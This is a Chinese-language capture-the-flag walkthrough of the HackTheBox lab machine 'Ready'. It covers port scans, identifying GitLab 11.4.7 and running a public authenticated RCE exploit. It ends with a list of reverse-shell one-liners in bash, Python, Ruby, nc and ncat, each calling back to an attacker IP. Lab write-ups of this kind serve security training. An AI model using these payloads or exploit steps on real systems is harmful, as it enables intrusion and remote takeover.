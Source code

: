 # 服务探测

开放端口
```
┌──(root㉿rock)-[~]
└─# nmap -p- --open 10.10.10.220              
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-01 04:24 EDT
Nmap scan report for 10.10.10.220
Host is up (0.030s latency).
Not shown: 61766 closed tcp ports (reset), 3767 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen

Nmap done: 1 IP address (1 host up) scanned in 50.09 seconds
```

详细端口信息
```

┌──(root㉿rock)-[~]
└─# nmap -sV -Pn -A -O 10.10.10.220 -p 22,5080
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-01 04:26 EDT
Nmap scan report for 10.10.10.220
Host is up (0.092s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
|_http-title: GitLab is not responding (502)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 11 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   ... 10
11  12.36 ms 10.10.10.220

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.71 seconds

```


# web

robots.txt
```
User-Agent: *
Disallow: /autocomplete/users
Disallow: /search
Disallow: /api
Disallow: /admin
Disallow: /profile
Disallow: /dashboard
Disallow: /projects/new
Disallow: /groups/new
Disallow: /groups/*/edit
Disallow: /users
Disallow: /help
# Only specifically allow the Sign In page to avoid very ugly search results
Allow: /users/sign_in

# Global snippets
User-Agent: *
Disallow: /s/
Disallow: /snippets/new
Disallow: /snippets/*/edit
Disallow: /snippets/*/raw

# Project details
User-Agent: *
Disallow: /*/*.git
Disallow: /*/*/fork/new
Disallow: /*/*/repository/archive*
Disallow: /*/*/activity
Disallow: /*/*/new
Disallow: /*/*/edit
Disallow: /*/*/raw
Disallow: /*/*/blame
Disallow: /*/*/commits/*/*
Disallow: /*/*/commit/*.patch
Disallow: /*/*/commit/*.diff
Disallow: /*/*/compare
Disallow: /*/*/branches/new
Disallow: /*/*/tags/new
Disallow: /*/*/network
Disallow: /*/*/graphs
Disallow: /*/*/milestones/new
Disallow: /*/*/milestones/*/edit
Disallow: /*/*/issues/new
Disallow: /*/*/issues/*/edit
Disallow: /*/*/merge_requests/new
Disallow: /*/*/merge_requests/*.patch
Disallow: /*/*/merge_requests/*.diff
Disallow: /*/*/merge_requests/*/edit
Disallow: /*/*/merge_requests/*/diffs
Disallow: /*/*/project_members/import
Disallow: /*/*/labels/new
Disallow: /*/*/labels/*/edit
Disallow: /*/*/wikis/*/edit
Disallow: /*/*/snippets/new
Disallow: /*/*/snippets/*/edit
Disallow: /*/*/snippets/*/raw
Disallow: /*/*/deploy_keys
Disallow: /*/*/hooks
Disallow: /*/*/services
Disallow: /*/*/protected_branches
Disallow: /*/*/uploads/

```

在这个页面确认gitlab版本为：11.4.7
```
http://10.10.10.220:5080/help
```

搜索漏洞情况，存在一个授权的RCE
```
┌──(root💀kali)-[~/htb/Ready]
└─# searchsploit gitlab 11.4.7
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)                                                                                                                                                                   | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)                                                                                                                                                 | ruby/webapps/49257.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results


```


执行payload，但是没有返回rev shell
```
──(root💀kali)-[~/htb/Ready]
└─# python3 49334.py -u chen -p 123456789 -g 'http://10.10.10.220' -l 10.10.16.2 -P 5080
[+] authenticity_token: P6oayybySIHkjN1hOiORE2To2qUsij2zCCWcEwRjr/eJ/UnDoWxn4YF5ZWw9aRBAUenpEHf0nkcnXQAZfSnCew==
[+] Creating project with random name: project2006
[+] Running Exploit
[+] Exploit completed successfully!

```

查看exp源代码，发现用的是nc反弹的shell
```
f'nc {local_ip} {local_port} -e /bin/bash'
```

linux为了安全考虑，一般会禁用nc的-e和-c参数

我们首先要证明确实是存在RCE，然后再想其他办法反弹shell回来

我们把上面那行代码改为：
```
 f'wget http://10.10.16.2/any'
```

在kali本地开一个http服务器，然后执行exp，收到get请求，证明rce存在
```
┌──(root💀kali)-[~/htb/Ready]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.220 - - [01/Jul/2022 05:22:07] code 404, message File not found
10.10.10.220 - - [01/Jul/2022 05:22:07] "GET /any HTTP/1.1" 404 -

```

使用下面payload


bash -i >& /dev/tcp/10.10.16.2/8080 0>&1

0<&196;exec 196<>/dev/tcp/10.10.16.2/8080; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.10.16.2/8080 0<&1 2>&1


sh -i >& /dev/udp/10.10.16.2/5080 0>&1


python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",5080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 5080 >/tmp/f

rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 5080 >/tmp/f

nc -c bash 10.10.16.2 5080


python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",5080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'


python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",5080));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'


python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",5080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'



ruby -rsocket -e'f=TCPSocket.open("10.10.16.2",5080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ncat 10.10.16.2 5080 -e /bin/bash